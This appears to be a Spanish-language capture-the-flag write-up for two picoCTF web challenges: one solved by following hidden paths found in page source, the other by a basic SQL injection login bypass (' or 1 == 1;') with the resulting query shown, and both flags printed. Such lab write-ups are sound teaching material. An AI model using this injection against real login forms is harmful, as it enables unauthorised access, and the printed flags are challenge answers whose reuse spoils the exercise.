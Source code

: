 ````` python
Nos metemos a la página y vemos el código fuente y nos fijamos que tiene un secret, nos metemos a la página usando /secret, después nos sale un gif diciendo que vamos por buen camino, nos metemos al código fuente y hay un hidden fil y agregamos el /hidden, por último miramos el código fuente de esa página y hay un superhidden lo agregamos y nos da la bandera

```
http://saturn.picoctf.net:50846/secret/
http://saturn.picoctf.net:50846/secret/hidden/
http://saturn.picoctf.net:50846/secret/hidden/superhidden/

Aparece un texto que dice que "Finally. You found me. But can you see me"

Hacemos ctrl+a y selecciona todo el texto de la página y vemos la bandera seleccionada en la página

flag: picoCTF{succ3ss_@h3n1c@10n_790d2615}
```
````` 


# 08 - SQLiLite
# DESC
Can you login to this website?Try to login [here](http://saturn.picoctf.net:58866/).

# SOLUCION

````` python
Ingresamos a la página e intentamos logearnos, nos dice que no es posible y miramos que tenemos que ingresar con una inyección SQL que la más básica es: ' or 1 == 1;' al ingresar nos dice que no está a simple vista la bandera, nos metemos al código fuente y ahí está

```
Log in
username: admin
password: ' or 1 == 1;'

usamos ctrl+u para ver código fuente

|   |
|---|
|<pre>username: admin|
||password: &#039; or 1 == 1;|
||SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; AND password=&#039;&#039; or 1 == 1;&#039;|
||</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}</p>|

flag: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}
```
````` 

